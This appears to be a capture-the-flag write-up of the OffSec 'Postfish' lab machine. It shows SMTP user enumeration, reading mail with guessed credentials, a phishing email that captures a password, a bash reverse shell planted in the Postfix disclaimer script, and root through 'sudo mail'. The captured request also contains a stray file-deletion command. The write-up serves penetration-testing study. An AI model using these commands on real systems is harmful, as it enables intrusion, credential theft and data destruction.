 ```yaml
---
title: "Proving grounds Practice: Potfish"
layout: post
date: 2024-05-20 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- SMTP
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


# NMAP
```text
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     Postfix smtpd
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: Host:  postfish.off; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp  open  http Apache httpd 2.4.41 ((Ubuntu))
Nothing here...

Create custom wordlist based on the texts in the webpage

```sh
cewl http://postfish.off/team.html -m 5 -w team.txt
```

## 25/tcp  open  smtp Postfix smtpd

Enumerate snmp users

```sh
smtp-user-enum -U team.txt -t 192.168.228.137
######## Scan started at Sat Oct 28 07:50:55 2023 #########
192.168.228.137: Sales exists
192.168.228.137: Legal exists
######## Scan completed at Sat Oct 28 07:51:11 2023 #########
2 results.
```

### Usernames found

Sales
Legal

**Users in the website**

Claire Madison
Mike Ross
Brian Moore
Sarah Lorem

**Common email naming**

claire.madison@postfish.off
mike.ross@postfish.off
brian.moore@postfish.off
sarah.lorem@postfish.off

```shell
naveenj@hackerspace:[08:01]~/proving_grounds/Postfish$ smtp-user-enum -U usr -t postfish.off
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usr
Target count ............. 1
Username count ........... 8
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sat Oct 28 08:01:52 2023 #########
postfish.off: claire.madison@postfish.off exists
postfish.off: sarah.lorem exists
postfish.off: brian.moore exists
postfish.off: mike.ross exists
postfish.off: claire.madison exists
postfish.off: sarah.lorem@postfish.off exists
postfish.off: mike.ross@postfish.off exists
postfish.off: brian.moore@postfish.off exists
######## Scan completed at Sat Oct 28 08:01:54 2023 #########
8 results.

8 queries in 2 seconds (4.0 queries / sec)
```

The scan shows the users exist.

Check email messages using imap protocol by using curl

```sh
curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
```

```shell
naveenj@hackerspace:[08:16]~/proving_grounds/Postfish$ curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
Return-Path: <it@postfish.off>
X-Original-To: sales@postfish.off
Delivered-To: sales@postfish.off
Received: by postfish.off (Postfix, from userid 997)
	id B277B45445; Wed, 31 Mar 2021 13:14:34 +0000 (UTC)
Received: from x (localhost [127.0.0.1])
	by postfish.off (Postfix) with SMTP id 7712145434
	for <sales@postfish.off>; Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
Subject: ERP Registration Reminder
Message-Id: <20210331131139.7712145434@postfish.off>
Date: Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
From: it@postfish.off

Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
```

### Sending email using smtp

```shell
- Connect to port using netcat
nc -nv 192.168.209.137 25

- From address
MAIL FROM: it@postfish.off
250 2.1.0 Ok

- To address
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok

- Begin data
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: Password reset process
Hi Brian,

Please follow this link to reset your password: http://192.168.45.205

regards,

-End data
.
250 2.0.0 Ok: queued as A6BCB4543F

- Exit
QUIT
221 2.0.0 Bye
```

![img](/assets/images/CTF/Proving_Grounds/Potfish/smtp.png)

Upon sending the link in the email they sent us the new password.

```shell
naveenj@hackerspace:[08:29]~/proving_grounds/Postfish$ nc -lvnp 80
listening on [any] 80 ...


connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 53910
POST / HTTP/1.1
Host: 192.168.45.205
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 207
Content-Type: application/x-www-form-urlencoded

first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

### url decoded

first_name=Brian&last_name=Moore&email=brian.moore%postfish.off&username=brian.moore&password=EternaLSunshinE&confifind/var/mail/-typef!-namesales-delete_password=EternaLSunshinE

### Credentials
brain.moore:EternaLSunshinE

## Privilege Escalation

Run linpeas.

```sh
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1000(brian.moore) gid=1000(brian.moore) groups=1000(brian.moore),8(mail),997(filter)

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Oct 28 12:42 /etc/postfix/disclaimer
```

Add reverse shell to the disclaimer script file.

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.205/443 0>&1;
```

Repeat what we did for initial foothold. So whenever the system receives and sends any emails it will include the disclaimer content from a text file. And this script will be executed.

```shell
naveenj@hackerspace:[09:05]~/proving_grounds/Postfish$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 47838
bash: cannot set terminal process group (31813): Inappropriate ioctl for device
bash: no job control in this shell
filter@postfish:/var/spool/postfix$ sudo -l
sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

### GTFO Bins Exploit

```sh
sudo mail --exec='!/bin/bash'
```

## Exploitation

```shell
filter@postfish:/var/spool/postfix$ sudo mail --exec='!/bin/sh'
sudo mail --exec='!/bin/sh'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).